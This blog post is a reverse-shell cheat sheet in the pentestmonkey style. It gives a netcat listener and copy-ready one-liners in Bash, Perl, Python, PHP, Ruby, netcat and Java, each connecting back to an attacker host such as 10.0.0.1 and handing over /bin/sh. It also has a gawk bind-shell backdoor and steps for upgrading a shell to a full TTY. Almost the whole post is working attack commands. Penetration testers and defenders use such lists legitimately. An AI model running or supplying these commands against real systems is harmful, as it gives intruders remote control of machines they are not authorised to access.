 ```yaml
---
layout: post
title:  "Reverse Shells Cheat Sheet"
categories: [cheatsheet, offensive_security]
tags: [ offensive security, cheat sheet, reverse shell, backdoor, bash, perl, python, PHP]
---
```


This list represent an comprehensive cheat sheet of shells and other related stuff.


## Listening
To setup a listening netcat instance, enter the following:

```terminal
sudo nc -nvlp 80
```

## Reverse Shells

To connect back to a listening netcat instance, enter the following:

#### Bash

```terminal
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

#### PERL

```terminal
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### PERL Windows 1

```terminal
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

#### Python

```terminal
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

```terminal
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

#### Ruby

```terminal
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

#### Netcat

```terminal
nc -e /bin/sh 10.0.0.1 1234
```

#### Java

```terminal
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### Gawk Reverse Shell

```terminal
#!/usr/bin/gawk -f

BEGIN {
        Port    =       8080
        Prompt  =       "bkd> "

        Service = "/inet/tcp/" Port "/0/0"
        while (1) {
                do {
                        printf Prompt |& Service
                        Service |& getline cmd
                        if (cmd) {
                                while ((cmd |& getline) > 0)
                                        print $0 |& Service
                                close(cmd)
                        }
                } while (cmd != "exit")
                close(Service)
        }
}
```

## Spawning interactive reverse shells with TTY

```terminal
# In reverse shell 
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z

# In Attacker console
$ stty raw -echo
$ fg

# In reverse shell
$ reset
$ export SHELL=bash
$ export TERM=xterm-256color
$ stty rows <num> columns <cols>
```

## Sources

- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://medium.com/@6c2e6e2e/spawning-interactive-reverse-shells-with-tty-a7e50c44940e